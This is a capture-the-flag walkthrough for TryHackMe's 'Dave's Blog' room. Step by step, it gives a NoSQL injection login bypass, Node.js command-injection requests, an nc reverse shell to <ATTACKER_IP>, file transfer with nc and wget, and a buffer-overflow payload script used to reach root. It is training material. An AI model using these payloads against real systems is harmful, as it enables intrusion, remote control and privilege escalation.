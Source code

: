# [Dave's Blog](https://tryhackme.com/room/davesblog)

## My friend Dave made his own blog!

# Dave's Blog

## My friend Dave made his own blog! You should go check it out.

### Flag 1

1. Start by scanning the target to identify open ports and services

_What's there to inject when there's no SQL?_

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Use gobuster to discover hidden directories and files

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN02]

3. Navigate to `http://<TARGET_IP>/admin` and examine the page source. In the JavaScript code, we find a hint for injection vulnerability

```html
<script>
  if (document.location.hash) {
    const div = document.createElement("div");
    div.innerText = decodeURIComponent(document.location.hash.substr(1));
    div.className = "note";
    document.body.insertBefore(div, document.body.firstChild);
  }
  document.querySelector("form").onsubmit = (e) => {
    /*e.preventDefault();
      const username = document.querySelector('input[type=text]').value;
      const password = document.querySelector('input[type=password]').value;

      fetch('', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({username, password})
      }).then(() => {
        location.reload();
      })
      return false;*/
  };
</script>
```

4. Since this appears to be a MongoDB backend, we can attempt a NoSQL injection. Capture the login request from `http://<TARGET_IP>/admin` with Burp Suite and modify it
   - Change the `Content-Type` header to `application/json`
   - Use a NoSQL injection payload that bypasses authentication
   - The `$ne` (not equal) operator in MongoDB will match any password that is not an empty string, effectively bypassing authentication

```
POST /admin HTTP/1.1
Host: <TARGET_IP>
Content-Length: 42
Content-Type: application/json

{"username":"dave","password":{"$ne":""}}
```

[SCREEN04]

5. After successful injection, the server responds with a JWT token. Decode this token using [CyberChef](https://gchq.github.io/CyberChef/) or any JWT decoder to extract the payload. The decoded payload reveals the first flag and Dave's actual password

[SCREEN05]

---

### Flag 2 / User flag

1. Login to `http://<TARGET_IP>/admin` using the credentials discovered from the JWT token (username: `dave`, password from the decoded JWT)

2. The admin panel has an execution feature. Capture the POST request with Burp Suite and test for command injection
   - This payload uses Node.js's `require` function to read the user flag file directly

```
POST /admin/exec HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/json
Content-Length: 68
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlLCJfaWQiOiI1ZWM2ZTVjZjFkYzRkMzY0YmY4NjQxMDciLCJ1c2VybmFtZSI6ImRhdmUiLCJwYXNzd29yZCI6IlRITXtTdXBlclNlY3VyZUFkbWluUGFzc3dvcmQxMjN9IiwiX192IjowLCJpYXQiOjE3NTc5NjAyMDZ9.t4CEy260DiaUlminL1apSfoYYRCmMyy8knujuuWgHBM

{"exec":"require('fs').readFileSync('/home/dave/user.txt')"}
```

[SCREEN06]

---

### Flag 3

_mongo deeper_

1. Prepare to catch a reverse shell on your attacking machine

```bash
nc -lvnp 4444
```

2. Use the command injection vulnerability to establish a reverse shell. Send the following payload through the admin exec endpoint
   - This creates a named pipe for bidirectional communication and establishes a reverse shell

```
POST /admin/exec HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/json
Content-Length: 126
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlLCJfaWQiOiI1ZWM2ZTVjZjFkYzRkMzY0YmY4NjQxMDciLCJ1c2VybmFtZSI6ImRhdmUiLCJwYXNzd29yZCI6IlRITXtTdXBlclNlY3VyZUFkbWluUGFzc3dvcmQxMjN9IiwiX192IjowLCJpYXQiOjE3NTgwMzUyNTh9.ItLu2YD6loxQyxakHVCmNUA2XOYlWQNiprKIdFOzCIc

{"exec":"require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 >/tmp/f')"}
```

3. Once you receive the shell, stabilize it for better interaction

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

4. Since the hint mentions "mongo deeper", investigate the MongoDB database
   - This reveals a hidden collection containing the third flag

```bash
mongo
show dbs
use daves-blog
show tables
db.whatcouldthisbes.find()
```

[SCREEN09]

---

### Flag 4

1. Check what commands the current user can run with sudo privileges
   - This reveals that the user can run `/uid_checker` as root without a password

```bash
sudo -l
```

[SCREEN07]

2. The `strings` command reveals hardcoded text including the fourth flag embedded in the binary

```bash
strings /uid_checker
```

[SCREEN08]

---

### Flag 5 / Root flag

_from pwn import \*_

1. First, transfer the binary to your attacking machine for analysis

On your attacking machine:

```bash
nc -lvnp 5555 > uid_checker
```

On the target machine:

```bash
nc <ATTACKER_IP> 5555 < /uid_checker
```

2. Analyze the binary to identify the buffer overflow vulnerability and create a Python script to exploit the buffer overflow

```PYTHON
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*88
buf += pack("<Q", 0x400803)
buf += pack("<Q", 0x601060)
buf += pack("<Q", 0x4005b0)
buf += pack("<Q", 0x400803)
buf += pack("<Q", 0x601060)
buf += pack("<Q", 0x400570)

f = open("in.txt", "w")
f.write(buf)
```

4. Run the Python script to generate the payload

```bash
python script.py
```

5. Set up a simple HTTP server to transfer the payload

```bash
python -m SimpleHTTPServer
```

6. On the target machine, download the payload file

```bash
wget http://<ATTACKER_IP>:8000/in.txt
```

7. Run the exploit against the SUID binary to gain root access
   - This pipes the payload into the program and keeps stdin open for interaction
   - With root access, read the final flag

```bash
(cat in.txt;cat)| sudo /uid_checker
cat /root/root.txt
```

[SCREEN10]
